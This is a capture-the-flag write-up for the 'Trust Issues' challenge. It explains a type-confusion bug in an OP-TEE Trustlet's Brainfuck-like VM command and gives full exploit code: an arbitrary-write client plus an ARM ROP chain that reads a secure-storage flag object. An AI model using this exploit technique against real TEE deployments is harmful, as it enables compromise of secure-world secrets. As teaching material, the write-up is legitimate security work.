






# Trust Issues

## Description 
Target system is a secure-world Trustlet running inside a TEE. The codebase is signed, verified, and marked "production ready." But something doesn't add up.

Your mission today, if you choose to accept it, is to do what the
auditors couldn't, wouldn't or were too lazy to do, press F5 and find the flag.

The flag is stored as a secure object. The id for that object is flag.

Note: for easier debugging, here's how you can connect GDB to the QEMU instance. If you start QEMU with the -s option, a GDB server will be available at 127.0.0.1:1234. Since ASLR is disabled, you can attach using: gdb-multiarch -ex 'target remote 127.0.0.1:1234' -ex 'add-symbol-file 41414141-7472-7573-745f-697373756573.elf 0x117000'

This allows you to debug the Trustlet like a regular user-space application - set breakpoints, inspect memory, and step through
execution.

```bash
nc 84.201.145.127 45454
```

## TL;DR
Complete code of exploit can be found [here](./solve/xploit/host/main.c)

Original task archive is [here](solve/pwn-f58c61351c7c228ee87ae7a8058ab7c5.tar.gz)

For more information about OP-TEE and environment setup look at [Broken Trust writeup](../broken-trust)

Once again, thanks to @wx0rx and @phoen1xxx for collaborating on this task with the author of this writeup and thanks to @m4drat for OP-TEE tasks and to SAS CTF organizers for the CTF at all

## Understanding the task


### Back to the future
Originally, this task served as the first in a series of two OP-TEE related tasks and we solved it first during the CTF. However, since the second task, Broken Trust, is broader in scope, the core details about OP-TEE and environment setup are covered there. Here, many components will be reused with references to Broken Trust — though initially, most of what’s described there was developed while working on this task

### Trustlet
So, what is Trustlet? It's Trustled Application (TA) inside a TEE (Trusted Execution Environment). In out case it's inside OP-TEE (open source TEE implementation). The task archive includes file `41414141-7472-7573-745f-697373756573.elf` - ELF file with Trustlet. It's strange name correspond to UUID that should be used by a client to connect to the trustlet to use it's trusted functionality. We'll load this ELF file in IDA Pro decompiler and try to understand what he does.

First of all, in decompiler we need to look at `TA_InvokeCommandEntryPoint`. It describes itself well enough by its name. Actually, this function is a wrapper over another one, `_GP11_TA_InvokeCommandEntryPoint`:
```c
TEE_Result __cdecl _GP11_TA_InvokeCommandEntryPoint(
        void *sess_ctx,
        uint32_t cmd_id,
        uint32_t param_types,
        __GP11_TEE_Param *params)
{
  TEE_Result result; // r0

  trace_printf("__GP11_TA_InvokeCommandEntryPoint", 363, 2, 1, "Received command: %u", cmd_id);
  if ( cmd_id )
  {
    if ( cmd_id == 1 )
      write_secure_object_cmd(param_types, params);
  }
  else
  {
    run_code_cmd(param_types, params);
  }
  __asm { POP             {R7,PC} }
  return result;
}
```
As we can see, there are two commands implemented in TA. With `cmd_id` equals to 1 `write_secure_object_cmd` is executed and `run_code_cmd` is executed with `cmd_id` equals to 0.

### Writing secure objects
Let's look at decompiled code of `write_secure_object_cmd`:
```c
TEE_Result __cdecl write_secure_object_cmd(uint32_t param_types, __GP11_TEE_Param *params)
{
  int v2; // lr
  TEE_Result result; // r0
  TEE_ObjectHandle object; // [sp+1Ch] [bp+4h] BYREF
  uint32_t exp_param_types; // [sp+20h] [bp+8h]
  size_t obj_id_sz; // [sp+24h] [bp+Ch]
  char *obj_id; // [sp+28h] [bp+10h]
  size_t data_sz; // [sp+2Ch] [bp+14h]
  char *data; // [sp+30h] [bp+18h]
  uint32_t obj_data_flag; // [sp+34h] [bp+1Ch]
  TEE_Result res; // [sp+38h] [bp+20h]
  int v13; // [sp+44h] [bp+2Ch]

  v13 = v2;
  exp_param_types = 85;
  if ( param_types == 85 )
  {
    obj_id_sz = params->memref.size;
    obj_id = (char *)_GP11_TEE_Malloc(obj_id_sz, 0);
    if ( obj_id )
    {
      _GP11_TEE_MemMove(obj_id, params->memref.buffer, obj_id_sz);
      data_sz = params[1].memref.size;
      data = (char *)_GP11_TEE_Malloc(data_sz, 0);
      if ( data )
      {
        _GP11_TEE_MemMove(data, params[1].memref.buffer, data_sz);
        obj_data_flag = 1031;
        res = _GP11_TEE_CreatePersistentObject(1u, obj_id, obj_id_sz, 0x407u, 0, 0, 0, &object);
        if ( res )
        {
          trace_printf("write_secure_object_cmd", 236, 1, 1, "TEE_CreatePersistentObject failed 0x%08x", res);
          TEE_Free(obj_id);
          TEE_Free(data);
        }
        else
        {
          res = _GP11_TEE_WriteObjectData(object, data, data_sz);
          if ( res )
          {
            trace_printf("write_secure_object_cmd", 244, 1, 1, "TEE_WriteObjectData failed 0x%08x", res);
            TEE_CloseAndDeletePersistentObject1(object);
          }
          else
          {
            TEE_CloseObject(object);
          }
          TEE_Free(obj_id);
          TEE_Free(data);
        }
      }
    }
  }
  __asm { POP             {R7,PC} }
  return result;
```
It literally does what it says: it writes secure objects. But what are secure objects? Apparently, this is an OP-TEE feature [described](https://globalplatform.org/wp-content/uploads/2021/03/GPD_TEE_Internal_Core_API_Specification_v1.3.1_PublicRelease_CC.pdf#%5B%7B%22num%22%3A324%2C%22gen%22%3A0%7D%2C%7B%22name%22%3A%22XYZ%22%7D%2C55%2C771%2C0%5D) in the OP-TEE API standard. From our perspective, it’s a simple key-value storage that we can write to using this command.

The task description mentions that the flag is also stored in this storage. However, this command only allows writing to it - so we’ll need to find another way to read the flag

### In Brainfuck we trust
Another one command TA can execute is `run_code_cmd`:
```c
TEE_Result __cdecl run_code_cmd(uint32_t param_types, __GP11_TEE_Param *params)
{
  int v2; // lr
  TEE_Result result; // r0
  __GP11_TEE_Param code; // [sp+1Ch] [bp+4h]
  __GP11_TEE_Param input; // [sp+24h] [bp+Ch]
  __GP11_TEE_Param output; // [sp+2Ch] [bp+14h]
  char *memory; // [sp+34h] [bp+1Ch]
  VmContext_t context; // [sp+38h] [bp+20h] BYREF
  int v9; // [sp+6Ch] [bp+54h]

  v9 = v2;
  code = *params;
  input = params[1];
  output = params[2];
  trace_printf("run_code_cmd", 166, 2, 1, "Code ptr: %p, code size: %zu", params->memref.buffer, params->memref.size);
  trace_printf("run_code_cmd", 167, 2, 1, "Input ptr: %p, input size: %zu", input.memref.buffer, input.memref.size);
  trace_printf("run_code_cmd", 168, 2, 1, "Output ptr: %p, output size: %zu", output.memref.buffer, output.memref.size);
  memory = (char *)_GP11_TEE_Malloc(0x4000u, 0);
  if ( memory )
  {
    *(__GP11_TEE_Param *)&context.code = code;
    context.input = (char *)input.value.a;
    context.input_idx = 0;
    context.input_sz = input.memref.size;
    context.output = (char *)output.value.a;
    context.output_idx = 0;
    context.output_sz = output.memref.size;
    context.memory = memory;
    context.memory_idx = 0;
    context.memory_sz = 0x4000;
    run_code(&context);
  }
  __asm { POP             {R7,PC} }
  return result;
```
This command accepts from a client 2 input (`code` & `input`) and 1 output (`output`) buffers. It initializes context of some VM (stands for Virtual Machine). We can conclude that there is virtual machine that executes `code` reading `input` and writing `output`. Let's look at what this VM does in function `run_code`:
```c
TEE_Result __cdecl run_code(VmContext_t *context)
{
  char *v1; // r3
  char *v2; // r3
  char *v3; // r2
  size_t v4; // r3
  char *v5; // r2
  char *output; // r1
  size_t output_idx; // r3
  char *input; // r2
  size_t input_idx; // r3
  char *v10; // r2
  char *memory; // r1
  size_t memory_idx; // r3
  TEE_Result result; // r0
  unsigned __int8 v15; // [sp+Bh] [bp-9h]
  size_t contexta; // [sp+Ch] [bp-8h]

  for ( contexta = 0; contexta < context->code_sz; ++contexta )
  {
    v15 = context->code[contexta];
    switch ( v15 )
    {
      case '+':
        if ( !validate_memory_bounds(context) )
          goto LABEL_17;
        v1 = &context->memory[context->memory_idx];
        ++*v1;
        break;
      case ',':
        if ( !validate_memory_bounds(context) )
          goto LABEL_17;
        input = context->input;
        input_idx = context->input_idx;
        context->input_idx = input_idx + 1;
        v10 = &input[input_idx];
        memory = context->memory;
        memory_idx = context->memory_idx;
        context->memory_idx = memory_idx + 1;
        memory[memory_idx] = *v10;
        break;
      case '-':
        if ( !validate_memory_bounds(context) )
          goto LABEL_17;
        v2 = &context->memory[context->memory_idx];
        --*v2;
        break;
      case '.':
        if ( !validate_memory_bounds(context) )
          goto LABEL_17;
        v3 = context->memory;
        v4 = context->memory_idx;
        context->memory_idx = v4 + 1;
        v5 = &v3[v4];
        output = context->output;
        output_idx = context->output_idx;
        context->output_idx = output_idx + 1;
        output[output_idx] = *v5;
        break;
      case '<':
        --context->memory_idx;
        continue;
      case '>':
        ++context->memory_idx;
        continue;
      default:
        trace_printf("run_code", 133, 1, 1, "Unknown command: %02x", v15);
        goto LABEL_17;
    }
  }
  trace_printf("run_code", 138, 2, 1, "Memory after execution: %s", context->memory);
LABEL_17:
  __asm { POP.W           {PC} }
  return result;
```

Wait a minute... It's a good old Brainfuck! It's almost him: jump operation `[` and `]` are missing.



So, the second command becomes clear: we can send Brainfuck `code` that will read data from `input` buffer and write to `output` one.

### Vulnerability

If we'll look carefully at what Brainfuck's VM does there is no some obvious errors - it checks all the bounds correctly, which leads to correct memory usage. So, maybe the problem isn't in Brainfuck's VM itself?

After looking at `write_secure_object_cmd` we'll find out that there is type check on incoming parameters:
```c
  exp_param_types = 85;
  if ( param_types == 85 )
  {
``` 
This type check is required based on the [way](https://globalplatform.org/wp-content/uploads/2010/07/TEE_Client_API_Specification-V1.0.pdf#%255B%257B%2522num%2522:89,%2522gen%2522:0%257D,%257B%2522name%2522:%2522XYZ%2522%257D,54,647,0%255D) clients interact with a Trustlet. However, `run_code_cmd` lacks such a check. An obvious question arises: What happens if we pass an integer value (`TEEC_VALUE_INPUT`) as a parameter expecting a buffer?



The answer is just as obvious: the Trustlet will interpret the integer as a memory address. Worse, if we pass a number as an `output` parameter, the Trustlet’s Brainfuck command will write its `output` to the address represented by that number - effectively allowing writes to any address. This is type confusion vulnerability allowing Arbitrary Address Write (AAW).

## Exploitation

### Preparation

Before we start writing actual exploit for the discovered vulnerability, we need to learn how to:
1. Build a client for the Trustlet
2. Run the Trustlet in a debugger

These topics are already well-covered in the [Broken Trust writeup](../broken-trust/README.md#environment-setup). In this task, we'll focus only on the key differences from that setup and reuse most of its scripts.

Main differences:
1. Uses 32-bit ARM (instead of 64-bit AArch64)
2. No Trusted Application (TA) creation required - we only need a client to interact with the existing Trustlet
3. We need to exploit a vulnerability in the OP-TEE OS Trusted Application itself (not in the kernel)
#### xploit
Our [xploit](./solve/xploit) is still a copy of one of [optee examples](https://github.com/linaro-swg/optee_examples). But there is only 3 files required for client building:
```
xploit
├── host
│   ├── main.c
│   └── Makefile
└── ta
    └── include
        └── trust_issues_ta.h
```
[trust_issues_ta.h](./solve/ta/include/trust_issues_ta.h) file contains only UUID of target Trastlet. And in [main.c](./solve/xploit/host/main.c) we'll write our exploit. For now, it contains only code required for connection to the Trastlet:
```c
/* OP-TEE TEE client API (built by optee_client) */
#include <tee_client_api.h>

/* For the UUID (found in the TA's h-file(s)) */
#include <trust_issues_ta.h>

TEEC_Context ctx;
TEEC_Session sess;

void init(void)
{
  TEEC_Result res;
  TEEC_UUID uuid = TA_TRUST_ISSUES_UUID;
  unsigned int err_origin;

  res = TEEC_InitializeContext(NULL, &ctx);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

  res = TEEC_OpenSession(&ctx, &sess, &uuid,
    TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
      res, err_origin);
}
void exploit(void)
{
  init();
  // TODO
}

int main(int argc, char *argv[])
{
  exploit();
}
```
#### Building


Here is the script for building both OP-TEE project and client for out Trustlet ([build.sh](./solve/build.sh)):
```bash
#!/bin/bash

set -e

if [[ ! -d ./optee ]]; then
  mkdir ./optee
  cd ./optee
  repo init -u https://github.com/OP-TEE/manifest.git -b 4.5.0
  repo sync
  cd ../
  ./docker.sh make -C /work/optee/build toolchains
  # We call it "Magiya drevnih rusov"
  ./docker.sh make -C /work/optee/build -j$((`nproc`+1)) || ./docker.sh make -C /work/optee/build -j$((`nproc`+1))
fi

./docker.sh make -C /work/xploit/host -j$((`nproc`+1)) \
  TEEC_EXPORT=/work/optee/out-br/per-package/optee_client_ext/target/usr \
  CROSS_COMPILE=arm-none-linux-gnueabihf- \
  $@
```
#### Running
Here is running script based on one the README from task's archive ([run.sh](./solve/run.sh)):
```bash
#!/bin/bash

cd ./task/bin

qemu-system-arm \
  -nographic \
  -smp 2 -d unimp \
  -semihosting-config enable=on,target=native \
  -m 1057 -bios bl1.bin -machine virt,secure=on \
  -cpu cortex-a15 -object rng-random,filename=/dev/urandom,id=rng0 \
  -device virtio-rng-pci,rng=rng0,max-bytes=1024,period=1000 \
  -netdev user,id=vmnic \
  -device virtio-net-device,netdev=vmnic \
  -monitor null \
  -serial stdio -serial tcp:127.0.0.1:31337 -s
```
Only one line, the last one, where added to allow debugging and looking at Secure World logs on local listening port. 

#### Debugging
Here is script for gdb ([script.gdb](./solve/script.gdb))
```gdb
target remote :1234
add-symbol-file ./task/41414141-7472-7573-745f-697373756573.elf 0x117000
b *run_code
b *run_code_cmd+314
```

### AAW



To do AAW we can put data we want to write in `input` buffer, integer representing target address in `output` parameter and use Brainfuck `code` that will simply copy input to output (for example, by `,<.<` code blocks). Let's implement this idea in code:
```c
// This buffer is used to pass ROP chain to TA and retrieve flag after TA return
uint8_t input[0x8000];
char code[0x8000];

void aaw(uint64_t address, uint8_t* data, size_t sz)
{
  // Prepare brain-fuck-like code to write input to output
  for(size_t i =0; i < sz; ++i)
    strcat(code,",<.<");

  // Put data we need to write in input buffer
  memcpy(input, data, sz);

  // Here is vulnerability
  // We pass output as value (uint32_t number), but TA think it's correct buffer address
  // So we have AAW primitive
  TEEC_Operation op = {};
  op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT,
    TEEC_MEMREF_TEMP_INOUT, TEEC_VALUE_INPUT, TEEC_NONE);
  op.params[0].tmpref.buffer = code;
  op.params[0].tmpref.size   = strlen(code)-1;
  op.params[1].tmpref.buffer = input;
  op.params[1].tmpref.size   = sizeof(input);
  op.params[2].value.a = address;
  op.params[2].value.b = sizeof(input);

  // Do AAW
  TEEC_Result res;
  unsigned int err_origin;
  res = TEEC_InvokeCommand(&sess, 0,
    &op, &err_origin);
}
```
Now we have  primitive that allows arbitrary writes anywhere in the Trustlet's memory. But what exactly should we overwrite to achieve... well, achieve what exactly?

As evident from the decompiled code, all functions conclude with an instruction that pops the `pc` register value from the stack. 
So, if we can write to the stack we can achieve code execution using [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) - execute some small usefull blocks of the Trustlet's code (gadgets) one by one in a chain. 
To do that we need to write gadget's addresses to the right places in the stack so they can be executed after `pc` register pop.

### How to read the flag?



Assuming we've achieved code execution, the next challenge is retrieving the flag. Since we know the flag is stored in OP-TEE's secure storage, we'll need to execute a series of API calls similar to those in `write_secure_object_cmd`.

After analyzing the [OP-TEE API documentation](https://globalplatform.org/wp-content/uploads/2021/03/GPD_TEE_Internal_Core_API_Specification_v1.3.1_PublicRelease_CC.pdf), we've identified the following required API calls to read the flag:
```c
TEE_ObjectHandle handle;
char flagid[] = "flag";
TEE_OpenPersistentObject(TEE_STORAGE_PRIVATE, // 1
	flagid, // address of "flag" string
	strlen(flag), // 4
	TEE_DATA_FLAG_ACCESS_READ, // 1
	&handle // address of resulting handle
);
char flag[0x100];
size_t readsz;
TEE_ReadObjectData(handle, // value for previous call
	flag, // output buffer
	sizeof(flag), // 0x100
	&readsz // some writeable address
);
```
All the functions we need to call are already present in the Trustlet image. Fortunately, there's no ASLR, so we can use any functions from the Trustlet image for building our ROP-chain.

After some deeper Trustle's image research we figured out that API function we need to call is just simple wrappers over underlying system call functions:
1. `TEE_OpenPersistentObject` -> `_utee_storage_obj_open`
2. `TEE_ReadObjectData` -> `_utee_storage_obj_read`

We decided to use them in our execution for the simple reason - the less code we execute the less erros we will face.

Beyond just calling functions, we need to solve another problem: how to transfer the read flag back to the client. 
This is crucial because we don't have access to Trustlet's logs on the remote machine. 
There is one existing data transfer method we've already seen in the Brainfuck command - we can write arbitrary data to the output buffer parameter.
For this purpose we decided to make `input` buffer of type `TEEC_MEMREF_TEMP_INOUT` to use him for Brainfuck `input` and flag returning at the same time

This leads us to another question: how can we return parameters from our TA back to the client within our ROP-chain? Through research, we discovered that OP-TEE kernel has a special syscall that exactly meets our needs. And, of course, this syscall is available in our Trustlet's image through the `_utee_return` function.

Putting it all together and simplifying, we need to execute following code:
```c
char flagid[] = "flag";
DWORD handle;
_utee_storage_obj_open(TEE_STORAGE_PRIVATE, // 1
	flagid, // address of "flag" string
	strlen(flag), // 4
	TEE_DATA_FLAG_ACCESS_READ, // 1
	&handle // address of resulting handle
);
DWORD readsz;
_utee_storage_obj_read(handle, // value from previous call
	flag_address, // address somewhere inside the buffer we passed as input in client AAW code
	sizeof(flag), // 0x100 (or any other value bigger than flag length)
	&readsz // some writeable address
);
_utee_return();
```

### ROP'n'roll 



#### How to call function from ROP-chain?

One problem prevents us from creating an x86-like ROP-chain: unlike x86, in ARM the function call instructions `bl` and `blx` don't push the return address on the stack. Instead, they use the `lr` register to store it. However, in our case all functions in the Trustlet's image push `lr` onto the stack themselves and pop it directly into the `pc` register at the function's end. 

This means we can't use functions in our ROP-chain in the familiar way by just putting their addresses on the stack, because after such a "call" the function will store some junk value from the `lr` register and will jump there at the function end, causing us to lose control. 
To make our ROP-chain work properly, we need to adjust the addresses of functions we're going to call by skipping the prologue that saves the `lr` register. 

Let's look how this prologue looks like in `_utee_storage_obj_open` function we need to call:
```
PUSH            {R5-R7,LR}
MOV             R7, #0x29 ; ')'
MOV             R6, #1
ADD             R5, SP, #0x10+arg_0
SVC             0
POP             {R5-R7,PC}
```
As we can see, it pushes 3 registers and `lr` one after them and later pops them all.
So, to call this function by address in the ROP-chain we need to:
1. Skip first instruction pushing `lr` register - we'll shift function address by one `push` instruction size (4 bytes)
2. Pop right address of the next gadget value in `pc` register after function return - we add 3 dwords (12 bytes) padding before the next gadget address.

Fortunatelly, it applies to both `_utee_storage_obj_open` and ` _utee_storage_obj_read` functions.
With `_utee_return` everything is more simpler - we can just put it's address in place of next gadget address cause we don't need to return from this function or call any other gadgets.

#### How to pass arguments to the function?

We'll analyze the calling conventions by examining `TEE_OpenPersistentObject`. We can look how this function calls underlying `_utee_storage_obj_open`:
```
STR             R3, [SP]
LDR             R3, [R7,#8]
LDR             R2, [R7,#0xC]
LDR             R1, [R7,#0x10]
LDR             R0, [R7,#0x14]
BLX             _utee_storage_obj_open
```
The first four arguments are stored in registers `r0`, `r1`, `r2`, and `r3` respectively. 
The 5th argument is stored at the top of the stack. From this, we can conclude that:

1. The first four arguments are passed in registers `r0` through `r3`.
2. Any additional arguments (5th and beyond) are passed on the stack.

#### Gadgets

 First, we need gadget to load values in registers `r0` through `r3` from the stack:
```
0x00001f84 : pop {r0, r1, r2, r3} ; pop {ip, pc}
```
Since we are going to transfer at least one argument in the stack, we also need gadget that will clean it and will move to the next gadget:
```
0x000073b8 : pop {r5, r6, r7, pc}
```
#### ROP-chain

Now let's put it all together and build the ROP-chain.

Addresses we will use:
```c
/* Addresses used */
#define ROP_ADDRESS         0x14c664                  // ROP start in the stack
#define FLAG_KEY_ADDRESS    (ROP_ADDRESS + 0x200)     // Address of flag object key string ("flag")
#define FLAG_ADDRESS        0x201000                  // Address for flag object writing
#define FLAG_HANDLE_ADDRESS (ROP_ADDRESS + 0x3C)      // Address of flag object handle
#define WRITEABLE_ADDRESS   (ROP_ADDRESS + 0x210)     // Address we can write to

/* Gadgets */
#define BASE            0x117000            // Base address of loaded TA
#define RETURN          (BASE + 0x000073A8) // return from TA to kernel
#define OBJ_OPEN        (BASE + 0x00007714) // open object
#define OBJ_READ        (BASE + 0x000077D0) // read object
#define POP_R0_R1_R2_R3 (BASE + 0x00001f84) // pop {r0, r1, r2, r3} ; pop {ip, pc}
#define POP3            (BASE + 0x000073b8) // pop {r5, r6, r7, pc}
```
Loading registers:
```c
uint32_t rop[0x100];
size_t   ropsz;

#define DW(x) rop[ropsz++] = (x) // add Double Word to the ROP-chain

void regs(uint32_t r0, uint32_t r1, uint32_t r2, uint32_t r3)
{
  DW(POP_R0_R1_R2_R3);
  DW(r0);
  DW(r1);
  DW(r2);
  DW(r3);
  DW(0);
}
``` 
Calling functions:
```c
void call(uint32_t address)
{
  DW(address);
  DW(0);
  DW(0);
  DW(0);
}
```
Open flag storage object:
```c
void genrop(void)
{
  // Open flag storage object by it's key
  // Resulting object handle is written right in it's place in the ROP
  regs(1, FLAG_KEY_ADDRESS, 4, 1);                          // 00
  call(OBJ_OPEN);                                           // 18
  DW(POP3);                                                 // 28
  DW(FLAG_HANDLE_ADDRESS);                                  // 2C
  DW(0);                                                    // 30
  DW(0);                                                    // 34
```
Read the flag:
```c
  // Read flag from storage by object handle
  // Object handle is written in place of 0x41414141 in previous open call
  regs(0x41414141, FLAG_ADDRESS, 0x100, WRITEABLE_ADDRESS); // 38
  call(OBJ_READ);                                           // 50
```
Return from TA:
```c
  // Return from TA copying input buffer (it's INOUT) with flag back to client
  // Can simply put it's address because we there is no return
  DW(RETURN);                                               // 60
```
The rest of ROP-chain buffer we'll use to store flag storage object key:
```c
  // Use avaliable space to store flag object key
  char flagkey[] = "flag";
  memcpy((uint8_t*)rop + FLAG_KEY_ADDRESS - ROP_ADDRESS,
    flagkey, sizeof(flagkey));
}
```
### pwn3d

Now, we'll put our ROP-chain together with AAW to write it in the stack and execute code right after the `run_code_cmd` function return:
```c
void flag(const char* start)
{
  size_t start_len = strlen(start);
  for (size_t i = 0; i < sizeof(input) - start_len; ++i)
  {
    if (!memcmp(input + i, start, start_len))
    {
      printf("%s\n", input + i);
    }
  }
}

void exploit(void)
{
  init();
  genrop();
  aaw(ROP_ADDRESS, (uint8_t*) rop, sizeof(rop));
  flag("SAS");
}

int main(int argc, char *argv[])
{
  exploit();
}
```
Build it, run remotely and successfully exploit the vulnerability and retrieve the flag:

```
NE_SAS{mi_proebali_nastoyashi_flag_gde_to_pu_puti}
```


